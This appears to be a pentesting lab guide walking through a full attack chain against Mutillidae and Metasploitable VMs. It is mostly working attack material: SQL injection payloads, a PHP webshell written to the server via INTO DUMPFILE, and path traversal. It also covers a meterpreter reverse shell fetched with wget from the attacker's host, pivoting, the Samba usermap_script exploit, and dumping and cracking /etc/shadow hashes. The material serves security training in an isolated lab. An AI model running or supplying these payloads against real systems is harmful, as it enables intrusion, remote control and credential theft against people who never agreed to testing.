# Pentesting Methodology - Complete Step-by-Step Guide

[](METODOLOGIA.md)
[](METODOLOGIA.es.md)

---

## 📋 Index

1. [Lab Configuration](#1-lab-configuration)
2. [Phase 1: Reconnaissance](#2-phase-1-reconnaissance)
3. [Phase 2: Web Exploitation](#3-phase-2-web-exploitation)
4. [Phase 3: Post-Exploitation](#4-phase-3-post-exploitation)
5. [Phase 4: Pivoting](#5-phase-4-pivoting)
6. [Phase 5: Internal Network Exploitation](#6-phase-5-internal-network-exploitation)
7. [Phase 6: Advanced Post-Exploitation](#7-phase-6-advance-post-exploitation)
8. [Summary of Commands Used](#8-summary-of-commands-used)
9. [Tools and Versions](#9-tools-and-versions)
10. [References](#10-references)


---

## 1. Lab Configuration

### 1.1 Network Architecture
```
┌─────────────────┐
│   Kali Linux    │ 192.168.0.30
│   (Attacker)    │
└────────┬────────┘
         │ Bridged Network
         │
┌────────▼────────────────┐
│ Ubuntu Mutillidae       │
│ ens33: 192.168.0.21     │ ← External Network (DMZ)
│ ens37: 192.168.8.131    │ ← Internal Network
└────────┬────────────────┘
         │ Host-Only Network
         │
┌────────▼────────────────┐
│  Metasploitable         │
│  eth0: 192.168.8.133    │
└─────────────────────────┘
```

### 1.2 Technical Specifications

| Machine | Interface | Network | IP | Gateway |
|---------|----------|-----|----|---------|
| **Kali Linux** | eth0 | Bridge | 192.168.0.30 | 192.168.0.1 |
| **Ubuntu Mutillidae** | ens33 | Bridge | 192.168.0.21 | 192.168.0.1 |
|  | ens37 | Host-Only | 192.168.8.131 | - |
| **Metasploitable** | eth0 | Host-Only | 192.168.8.133 | - |

### 1.3 VMware Configuration

#### Kali Linux:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Bridged (Automatic)
```

#### Ubuntu Mutillidae:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Bridged (Automatic)

3. VM → Settings → Add → Network Adapter
4. Adapter 2: Custom (VMnet1 - Host-only)
```

#### Metasploitable:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Custom (VMnet1 - Host-only)
```

### 1.4 Connectivity Verification

**From Kali:**
```bash
# Verify own IP
ip addr show eth0
# Expected result: 192.168.0.30

# Verify connectivity to Mutillidae (DMZ)
ping -c 4 192.168.0.21
# ✅ Should work

# Attempt to reach Metasploitable (internal network)
ping -c 4 192.168.8.133
# ❌ Should NOT work (without pivoting)
```

**From Ubuntu Mutillidae:**
```bash
# Verify interfaces
ip addr show

# Expected result:
# ens33: 192.168.0.21/24
# ens37: 192.168.8.131/24

# Verify connectivity to Kali
ping -c 4 192.168.0.30
# ✅ Should work

# Verify connectivity to Metasploitable
ping -c 4 192.168.8.133
# ✅ Should work
```

---

## 2. Phase 1: Reconnaissance

### 2.1 Burp Suite Configuration

#### On Kali:
```bash
# Start Burp Suite
burpsuite &
```

#### Proxy Configuration:
```
1. Burp Suite → Proxy → Options
2. Proxy Listeners:
   - Running: ✅
   - Interface: 127.0.0.1:8080
3. Intercept Server Responses: ✅
```

#### Configure Firefox:
```
1. Firefox → Preferences → General
2. Network Settings → Settings
3. Manual proxy configuration:
   - HTTP Proxy: 127.0.0.1
   - Port: 8080
   - Also use this proxy for HTTPS
4. OK
```

### Manual Navigation with Burp Suite
```bash
# In Firefox (with proxy configured):
http://192.168.0.21/mutillidae
```

**Actions performed:**
1. Navigate through main menu
2. Visit OWASP 2017 pages:
   - A1 - Injection → User Info (SQL)
   - A1 - Injection → Login
   - A7 - XSS → Reflected
   - Others → File Upload
3. Test login forms
4. Explore different sections

**Result in Burp Suite:**
```
Burp Suite → Target → Site map

http://192.168.0.21
└── mutillidae/
    ├── index.php
    ├── login.php
    ├── user-info.php
    ├── includes/
    │   ├── header.php
    │   ├── database-config.php
    │   └── ...
    ├── javascript/
    ├── images/
    └── styles/
```


---

### 2.3 Automated Scanning with Skipfish
```bash
# From Kali:
skipfish -YO -o ~/Desktop/skipfish_resultados http://192.168.0.21/mutillidae/index.php
```

**Parameters:**
- `-Y`: Skip confirmation prompts
- `-O`: Skip home page
- `-o`: Output directory

**Result:**
```
[+] Scan statistics:
    Duration: 15m 23s
    HTTP requests: 8234
    Nodes in database: 847
    Directories: 124
    Files: 723
    
[+] Security findings:
    High risk: 12
    Medium risk: 34
    Low risk: 89
```

**View results:**
```bash
firefox ~/Desktop/skipfish_resultados/index.html
```


---

## Phase 2: Web Exploitation

### 3.1 Brute Force Attack with Burp Suite

#### Step 1: Capture login request
```bash
# En Burp Suite:
Proxy → Intercept is ON

# In Firefox:
http://192.168.0.21/mutillidae/index.php?page=login.php

# Enter test credentials:
Username: usuario123
Password: pass123
Click "Login"
```

**Captured request in Burp:**
```http
POST /mutillidae/index.php?page=login.php HTTP/1.1
Host: 192.168.0.21
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=usuario123&password=pass123&login-php-submit-button=Login
```


---

#### Step 2: Modify request (SQL Injection)

**Original request:**
```
username=usuario123&password=pass123&login-php-submit-button=Login
```

**Modified request:**
```
username=admin' OR '1'='1&password=cualquiercosa&login-php-submit-button=Login
```

**In Burp Suite:**
```
1. Modify username parameter
2. Click "Forward"
3. Intercept is OFF
```

**Result in Firefox:**
```
✅ Logged In Admin: admin (g0t r00t?)
```


---

#### Step 3: Brute Force with Burp Intruder

**Configure attack:**
```
1. Burp Suite → Proxy → HTTP history
2. Find POST request to login.php
3. Right-click → Send to Intruder
4. Intruder → Positions
5. Click "Clear §" (clear markers)
6. Manually select:

username=§usuario123§&password=§pass123§&login-php-submit-button=Login

7. Attack type: Cluster bomb
```

**Configure payloads:**
```
Intruder → Payloads

Payload set 1 (username):
- admin
- john
- jeremy
- bryce
- estefania (cuenta creada para prueba)
- root
- test

Payload set 2 (password):
- admin
- password
- 123456
- monkey
- estefania123 (password de cuenta de prueba)
- letmein
- test
```

**Start attack:**
```
Click "Start attack"
```

**Results:**
```
Request | Payload 1   | Payload 2    | Status | Length
--------|-------------|--------------|--------|-------
45      | estefania   | estefania123 | 302    | 459  ← Exitoso
12      | admin       | admin        | 200    | 59645  ← Fallido
23      | john        | monkey       | 200    | 59645  ← Fallido
...other attempts...  | 200    | 59645  ← Fallidos
```

**Identify successful login:**
- Status code: **302** (redirect)
- Length: **Different** from others (459 vs 59645)


---

### 3.2 SQL Injection - Data Extraction

#### Navigate to vulnerable page:
```
Firefox → http://192.168.0.21/mutillidae
OWASP 2017 → A1 - Injection (SQL) → SQLi - Extract Data → User Info (SQL)
```

#### 3.2.1 Get all users

**Payload:**
```sql
' OR 1=1-- 
```

**Field:** Name
**Result:** 26 users with plaintext passwords
```
Username    Password    Signature
admin       admin       g0t r00t?
john        monkey      I like the smell of confunk
jeremy      password    d1373 1337 speak
bryce       password    I Love SANS
ed          pentest     Hehehe
samurai     samurai     Carving fools
jim         password    Rome did not create a great empire by having meetings...
pablo       letmein     
dave        password    
adrian      somepassword
... [16 more users]
```


---

#### 3.2.2 Authentication Bypass

**Navigation:**
```
OWASP 2017 → A1 - Injection (SQL) → SQLi - Bypass Authentication → Login
```

**Payload:**
```sql
' OR 1=1-- 
```

**Field:** Name. Here we enter our SQL payload ' OR 1=1--  
**Password:** (anything or empty)

**Result:**
```
✅ Logged In Admin: admin
```

---

#### 3.2.3 Determine number of columns

**Payloads tested:**
```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
' ORDER BY 4-- 
' ORDER BY 5-- 
' ORDER BY 6-- 
' ORDER BY 7--  ✅ Works
' ORDER BY 8--  ❌ Error: Unknown column '8'
```

**Conclusion:** Tabla has **7 columns**

---

#### 3.2.4 Get database name

**Payload:**
```sql
' UNION SELECT null,database(),null,null,null,null,null-- 
```

**Result:**
```
mutillidae
```

---

#### 3.2.5 Get MySQL version

**Payload:**
```sql
' UNION SELECT null,version(),null,null,null,null,null-- 
```

**Result:**
```
5.7.33-0ubuntu0.20.04.1
```

---

#### 3.2.6 List all tables

**Payload:**
```sql
' UNION SELECT null,table_name,null,null,null,null,null FROM information_schema.tables WHERE table_schema='mutillidae'-- 
```

**Result (355 tables):**
```
ADMNISTRABLE_ROLE_AUTHORIZATIONS
APPLICABLE_ROLES
CHARACTER_SETS
CHECK_CONTRAINTS
...
```


---

#### 3.2.7 Access files remotely


**Payload:**
```sql
' union select null,load_file('/var/lib/mysql-files/ficheroprueba.txt'),null,null,null,null,null-- 
```

**Result:**
```
username=esto es una prueba
```


---

### 3.3 Path Traversal

**Vulnerable URL:**
```
http://192.168.0.21/mutillidae/index.php?page=user-info.php

```

**Payload:**
```
http://192.168.0.21/mutillidae/index.php?page=../../../../../etc/passwd
```

**Result:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... [complet /etc/passwd content]
```


---

### 3.4 Remote Code Execution - Webshell Upload

#### Step 1: Verify write permissions
```bash
# From Ubuntu Mutillidae:
sudo chmod 777 /var/www/html/mutillidae/

# Verify:
ls -ld /var/www/html/mutillidae/
# Result: drwxrwxrwx
```


#### Step 2: Create webshell code

**Complete webshell (with form):**
```php
<form action="" method="post" enctype="application/x-www-form-urlencoded">
<table style="margin-left:auto; margin-right:auto;">
<tr><td colspan="2">Please enter system command</td></tr>
<tr><td></td></tr>
<tr><td class="label">Command</td>
<td><input type="text" name="pCommand" size="50"></td></tr>
<tr><td></td></tr>
<tr><td colspan="2" style="text-align:center;">
<input type="submit" value="Execute Command" /></td></tr>
</table>
</form>
<?php 
echo "<pre>";
echo shell_exec($_REQUEST["pCommand"]);
echo "</pre>"; 
?>
```

#### Step 3: Inject webshell via SQL

**Payload (ALL IN ONE LINE):**
```sql
' UNION SELECT null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/backdoor.php'-- 
```

**Execute in:**
```
Firefox → OWASP 2017 → A1 - Injection (SQL) → SQLi - Extract Data → User Info (SQL)
"Name" field: [paste payload]
Click "View Account Details"
```

#### Step 4: Verify webshell creation
```bash
# From Ubuntu Mutillidae:
ls -la /var/www/html/mutillidae/ | grep backdoor

# Result:
-rw-rw-rw- 1 mysql mysql 512 ene 10 14:23 backdoor.php
```



**✅ Webshell created successfully**

---

#### Step 5: Access webshell (Path Traversal)

**URL:**
```
http://192.168.0.21/mutillidae/index.php?page=backdoor.php
```

**Webshell interface:**
```
┌─────────────────────────────────┐
│ Please enter system command     │
│                                 │
│ Command: [___________________]  │
│                                 │
│      [Execute Command]          │
└─────────────────────────────────┘
```


---

#### Step 6: Execute commands

**Command 1: Verify user**
```
Command: whoami
Result: www-data
```


**Command 2: List files**
```
Command: ls -la
Result:
drwxrwxrwx 10 www-data www-data  4096 ene 10 14:23 .
drwxr-xr-x  3 root     root      4096 sep 29  2023 ..
-rw-r--r--  1 www-data www-data  8234 sep 29  2023 index.php
-rw-rw-rw--  1 mysql    mysql      512 ene 10 14:23 backdoor.php
... [more files]
```


**Command 3: Read /etc/passwd**
```
Command: cat /etc/passwd
Result: [complete file content]
```


---

## 4. Phase 3: Post-Exploitation

### 4.1 Internal Network Discovery

**Command:**
```
Command: ip addr show
```

**Result:**
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536
    inet 127.0.0.1/8 scope host lo

2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500
    inet 192.168.0.21/24 brd 192.168.0.255 scope global ens33

3: ens37: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500
    inet 192.168.8.131/24 brd 192.168.8.255 scope global ens37
```

**⚠️ Critical finding:**
- **ens33:** 192.168.0.21 → External network (known)
- **ens37:** 192.168.8.131 → **INTERNAL NETWORK discovered!**


---

### 4.2 Internal Network Scan

**Command:**
```
Command: ping -c 1 192.168.8.133
```

**Result:**
```
PING 192.168.8.133 (192.168.8.133) 56(84) bytes of data.
64 bytes from 192.168.8.133: icmp_seq=1 ttl=64 time=0.387 ms

--- 192.168.8.133 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
```

**✅ Host 192.168.8.133 active (Metasploitable)**


---

## 5. Phase 4: Pivoting

### 5.1 Meterpreter Payload Generation
```bash
# From Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=4444 -f elf > shell.elf

# Result:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```



**Verify creation:**
```bash
ls -lh shell.elf
# -rw-r--r-- 1 kali kali 207 ene 9 13:15 shell.elf
```

---

### 5.2 Transfer Payload to Ubuntu

#### Step 1: Start HTTP server on Kali
```bash
# In new Kali terminal window (don't close process):
python3 -m http.server 8000

# Result:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```


#### Step 2: Download from webshell

**Command in webshell:**
```
wget http://192.168.0.30:8000/shell.elf -O /tmp/shell.elf
```

#### Step 3: Give execution permissions

**Command in webshell:**
```
chmod +x /tmp/shell.elf
```

**Verify:**
```
Command: ls -la /tmp/shell.elf
Result: -rwxr-xr-x 1 www-data www-data 207 ene 9 13:20 /tmp/shell.elf
```


**✅ Payload ready to execute**

---

### 5.3 Configure Listener on Kali
```bash
# New terminal on Kali:
msfconsole
```

**Inside msfconsole:**
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.30
set LPORT 4444
exploit
```

**Result:**
```
[*] Started reverse TCP handler on 192.168.0.30:4444
```


**⏳ Waiting for connection...**

---

### 5.4 Execute Payload from Ubuntu

**Command in webshell:**
```
/tmp/shell.elf
```

**On Kali (msfconsole) you'll see:**
```
[*] Sending stage (1017704 bytes) to 192.168.0.21
[*] Meterpreter session 1 opened (192.168.0.30:4444 -> 192.168.0.21:36722) at 2026-01-09 13:24:18 -0500

meterpreter >
```

**✅ Meterpreter session established!**


---

### 5.5 Verify Meterpreter Session
```
meterpreter > sysinfo
```

**Result:**
```
Computer     : 192.168.0.21
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```


```
meterpreter > ifconfig
```

**Result:**
```
Interface  1
============
Name         : lo
IPv4 Address : 127.0.0.1

Interface  2
============
Name         : ens33
IPv4 Address : 192.168.0.21

Interface  3
============
Name         : ens37
IPv4 Address : 192.168.8.131  ← Red interna
```


---

### 5.6 Configure Autoroute (Pivoting)
```
meterpreter > run autoroute -s 192.168.8.0/24
```

**Result:**
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.8.0/255.255.255.0...
[+] Added route to 192.168.8.0/255.255.255.0 via 192.168.0.21
[*] Use the -p option to list all active routes
```



**Verify routes:**
```
meterpreter > run autoroute -p
```

**Result:**
```
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.8.0        255.255.255.0      Session 1
```


**✅ Pivoting tunnel configured correctly**


Enter the following commands to find Metasploitable's IP

```
shell
ipneighbor
Comprobamos que ya tenemos las IPs
```

Result:
192.168.0.30 → Mi Kali (Alcanzable - REACHABLE)
192.168.8.133 → Esta debe ser Metasploitable 
192.168.8.1 y 192.168.8.254 → Gateways de la red host-only



---

### 5.7 Scan Internal Network through Pivoting
```
meterpreter > exit
meterpreter > background
```

**Now in msfconsole:**
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.8.133
set PORTS 21,22,23,25,80,139,445,3306,5432,8180
set THREADS 10
run
```

**Result:**
```
[+] 192.168.8.133:        - 192.168.8.133:3306 - TCP OPEN
[+] 192.168.8.133:        - 192.168.8.133:5432 - TCP OPEN
[+] 192.168.8.133:        - 192.168.8.133:8180 - TCP OPEN
[*] 192.168.8.133:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


It seems typical ports (21, 22, 23, 80, 139, 445) are filtered or closed. Let's do a broader scan and then exploit a service.

**More complete scan:**
```
set PORTS 1-10000
set THREADS 20
run
```

**Result (open ports found):**
```
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
```


---

## 6. Phase 5: Internal Network Exploitation

### 6.1 Identify Samba Vulnerability
```
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.8.133
set PAYLOAD cmd/unix/bind_perl
exploit
```

**Result:**

* Command shell session 2 opened (192.168.8.131:40362 -> 192.168.8.133:4444 via session 1)
Ya tenemos acceso a Metasploitable a través del pivoting
via session 1 → Está usando mi sesión Meterpreter en Ubuntu como puente
192.168.8.131 (Ubuntu) → 192.168.8.133 (Metasploitable)


---

### 6.2 Verify Access

```
whoami
```

**Result:**
```
root
```
```
id
```

**Result:**
```
uid=0(root) gid=0(root)
```

**✅ ROOT access obtained!**


---

### 6.3 System Enumeration

**Hostname:**
```
hostname
```
**Result:** `metasploitable`

**Operating system:**
```
uname -a
```
**Result:**
```
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

**Network interfaces:**
```
ifconfig
```
**Result:**
```
eth0      Link encap:Ethernet  HWaddr 00:0c:29:80:d3:95
          inet addr:192.168.8.133  Bcast:192.168.8.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
```


---

## 7. Phase 6: Advanced Post-Exploitation

### 7.1 Extract /etc/shadow
```
cat /etc/shadow
```

**Result:**
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
```

**Save hashes:**
From Kali, create hashes.txt file:
```
nano hashes.txt
```

**Content of hashes.txt:**
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//
```


### 7.2 Identify Hash Type

bash# From Kali:
```
hashid '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'
```

**Result:**
```
Analyzing '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'
[+] MD5 Crypt
[+] Cisco-IOS(MD5)
[+] FreeBSD MD5
```
Conclusion: MD5 Crypt hashes ($1$)




### 7.3 Cracking with John the Ripper

From Kali:
```
bash# 
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Result:**
```
klog:123456789
sys:batman
service:service

3 password hashes cracked, 4 left
```


### 7.4 Summary of Cracked Credentials

| User     | Hash (MD5 Crypt)                | Password   | Status           |
|----------|---------------------------------|------------|------------------|
| klog     | $1$f2ZVMS4K$R9XkI.Cm...         | 123456789  | ✅ Cracked       |
| sys      | $1$fUX6BPOt$Miyc3Up...          | batman     | ✅ Cracked       |
| service  | $1$kR3ue7JZ$7GxELD...           | service    | ✅ Cracked       |
| root     | $1$/avpfBJ1$x0z8w5U...          | -          | ❌ Not cracked   |
| msfadmin | $1$XN10Zj2c$Rt/zzC...           | -          | ❌ Not cracked   |
| user     | $1$HESu9xrH$k.o3G93...          | -          | ❌ Not cracked   |
| postgres | $1$Rw35ik.x$MgQgZU...           | -          | ❌ Not cracked   |


### 8. Summary of Commands Used

Reconnaissance
```
bash# Burp Suite
burpsuite &

# Skipfish
skipfish -YO -o ~/Desktop/skipfish_resultados http://192.168.0.21/mutillidae/index.php
```

SQL Injection
```
sql
-- User extraction
' OR 1=1-- 

-- Authentication bypass
' OR 1=1-- 

-- Determine columns
' ORDER BY 7-- 

-- Get database
' UNION SELECT null,database(),null,null,null,null,null-- 

-- Get version
' UNION SELECT null,version(),null,null,null,null,null-- 

-- List tables
' UNION SELECT null,table_name,null,null,null,null,null FROM information_schema.tables WHERE table_schema='mutillidae'-- 

-- Read file
' UNION SELECT null,LOAD_FILE('/etc/passwd'),null,null,null,null,null-- 

-- Upload webshell
' UNION SELECT null,null,null,null,null,null,'[CÓDIGO PHP]' INTO DUMPFILE '/var/www/html/mutillidae/backdoor.php'--
```

Webshell Commands
```
bash
whoami
ls -la
cat /etc/passwd
ip addr show
ping -c 1 192.168.8.133
```
Metasploit - Meterpreter
```
bash
# Generate payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=4444 -f elf > shell.elf

# Payload server
python3 -m http.server 8000

# Listener
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.30
set LPORT 4444
exploit

# Pivoting
run autoroute -s 192.168.8.0/24
run autoroute -p
background
```

Metasploit - Samba Exploit
```
bash
# Port scan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.8.133
set PORTS 1-10000
run

# Samba exploit
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.8.133
set PAYLOAD cmd/unix/bind_perl
exploit
```

Password Cracking
```
bash
# Identify hash
hashid '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'


# Crack with John
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# View results
john --show hashes.txt
```

## 9. Tools and Versions
| Tool                    | Version | Purpose                          |
|-------------------------|---------|----------------------------------|
| Kali Linux              | 2024.1  | Attacker operating system        |
| Burp Suite Community    | 2024.x  | Intercepting proxy               |
| Skipfish                | 2.10b   | Web scanner                      |
| Metasploit Framework    | 6.3.x   | Exploitation platform            |
| msfvenom                | 6.3.x   | Payload generator                |
| John the Ripper         | 1.9.0   | Password cracker                 |
| Python                  | 3.11    | HTTP server                      |
| Firefox                 | 115 ESR | Web browser                      |


## 10. References

- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/)
- [Burp Suite Documentation](https://portswigger.net/burp/documentation)
- [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

For a **more extended version** of the step-by-step guide, you can visit [this entry](https://diariohacking.com/aprender-ciberseguridad/auditoria-de-seguridad-pentesting-web-y-pivoting-de-red) I wrote on my blog.


Author: Estefanía Ramírez Martínez
Date: January 2025
License: MIT
